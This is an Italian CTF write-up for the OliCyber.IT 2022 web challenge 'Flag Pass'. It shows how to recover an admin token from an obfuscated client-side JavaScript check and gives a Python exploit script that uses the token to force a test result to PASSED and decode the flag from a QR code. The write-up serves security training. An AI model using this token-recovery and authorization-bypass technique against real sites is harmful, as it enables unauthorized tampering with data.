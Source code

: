 # OliCyber.IT 2022 - Competizione territoriale

## [web-1] Flag Pass (153 risoluzioni)

La challenge si presenta come un sito in cui è possibile eseguire dei test.

Il risultato del test viene aggiornato automaticamente a `FAILED` dopo pochi secondi dalla creazione.

Per ottenere la flag bisogna riuscire ad effettuare un test e ottenere `PASSED` come risultato.

### Soluzione

Il sito offre anche un endpoint per inserire il risultato di un test, fornendo il token dell'admin.

Analizzando la pagina `/record_result` si può notare uno script con cui il token viene controllato lato client.

```javascript
if (t.charCodeAt(13) === (((-30420 / 13) / 30) + 123) &&
    t.charCodeAt(11) === (((((-33063 / 103) / 107) ^ 86) + 76) + 111) &&
    t.charCodeAt(29) === (((-251 ^ 141) + 64) + 105) &&
    t.charCodeAt(3) === (((((2052 ^ 87) ^ 111) / 68) ^ 91) - 12) &&
    t.charCodeAt(16) === ((((16 ^ 23) + 61) - 119) + 150) &&
    t.charCodeAt(2) === (((-1140 / 95) ^ 82) + 139) &&
    t.charCodeAt(6) === (((20266 - 26) / 115) - 123) &&
    t.charCodeAt(23) === ((((1218 - 57) + 2) ^ 52) / 27) &&
    t.charCodeAt(21) === ((((27 - 113) - 83) + 79) + 141) &&
    t.charCodeAt(14) === ((((((167 ^ 77) ^ 133) - 107) ^ 5) ^ 80) - 29) &&
    t.charCodeAt(27) === ((((((57812794 ^ 50) / 88) + 127) / 90) / 49) - 94) &&
    t.charCodeAt(7) === (((((8375612 / 28) - 139) / 145) + 5) / 39) &&
    t.charCodeAt(18) === ((((((-7664 ^ 69) + 3) - 24) / 56) ^ 133) + 48) &&
    t.charCodeAt(20) === (((((179 ^ 85) + 32) - 117) ^ 149) ^ 55) &&
    t.charCodeAt(25) === ((((((235 + 77) - 77) - 35) - 127) + 24) ^ 5) &&
    t.charCodeAt(24) === (((-14 + 60) ^ 65) - 14) &&
    t.charCodeAt(28) === (((236 - 140) ^ 135) ^ 129) &&
    t.charCodeAt(0) === (((29 ^ 93) / 8) + 48) &&
    t.charCodeAt(12) === (((((16654 ^ 78) ^ 145) / 83) + 25) ^ 130) &&
    t.charCodeAt(8) === ((((154 ^ 126) ^ 118) - 5) - 96) &&
    t.charCodeAt(32) === (((((7 ^ 143) - 112) + 59) - 68) + 38) &&
    t.charCodeAt(4) === (((((10817 + 112) - 120) - 81) / 149) + 28) &&
    t.charCodeAt(15) === ((((((262 ^ 116) ^ 140) ^ 117) - 105) - 133) - 59) &&
    t.charCodeAt(5) === ((((((13809800 / 145) / 10) + 137) ^ 143) / 138) ^ 118) &&
    t.charCodeAt(19) === ((((-428 ^ 83) / 101) + 100) ^ 102) &&
    t.charCodeAt(10) === ((((6720 + 28) + 16) / 76) - 33) &&
    t.charCodeAt(31) === (((15456 / 138) - 14) ^ 3) &&
    t.charCodeAt(17) === (((1657 - 59) + 136) / 34) &&
    t.charCodeAt(1) === ((((((-4323 ^ 53) / 56) + 21) + 43) + 41) + 22) &&
    t.charCodeAt(9) === ((((((34470 / 15) ^ 60) + 122) / 37) - 12) ^ 7) &&
    t.charCodeAt(35) === (((298 - 27) - 146) ^ 24) &&
    t.charCodeAt(26) === (((97 ^ 133) ^ 35) - 97) &&
    t.charCodeAt(33) === (((((12604 / 137) - 95) - 63) - 3) + 122) &&
    t.charCodeAt(34) === (((((342639 / 33) + 121) ^ 3) / 133) ^ 45) &&
    t.charCodeAt(22) === ((((((132974976 / 128) - 3) - 53) + 149) / 148) / 130) &&
    t.charCodeAt(30) === ((((((2319989 + 11) / 80) / 145) ^ 114) ^ 94) ^ 134)) {

    // token ok
    ...
}
```

Il controllo viene effettuato su ogni carattere del token, confrontando il codice del carattere con il risultato di un'operazione.

É possibile ricostruire il token, carattere per carattere, eseguendo le operazioni effettuate nel controllo.

Il token ricostruito è `8218d355-38ff-4bc3-9336-adf7f1ba55be` e può essere usato per modificare il risultato di un test.

La flag si trova nel qrcode generato per un test con risultato `PASSED`.

### Exploit

```python
import requests
import re
import PIL.Image
import base64
import io
from pyzbar.pyzbar import decode

host = "http://flag-pass.challs.olicyber.it"

secret_token = "8218d355-38ff-4bc3-9336-adf7f1ba55be"

r = requests.get(host + "/test")
test_id = re.search(
    r"[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}", r.text
)[0]


r = requests.post(
    host + "/record_result",
    json={"token": secret_token, "test_id": test_id, "result": True},
)

assert r.status_code == 200

r = requests.get(host + "/pass", params={"id": test_id})

x = re.search(r"base64,([\w/+=]+)\"", r.text)[1]

img = PIL.Image.open(io.BytesIO(base64.b64decode(x)))

decoded = decode(img)

flag = re.search(r"flag{.+}", decoded[0].data.decode())[0]

print(flag)
```
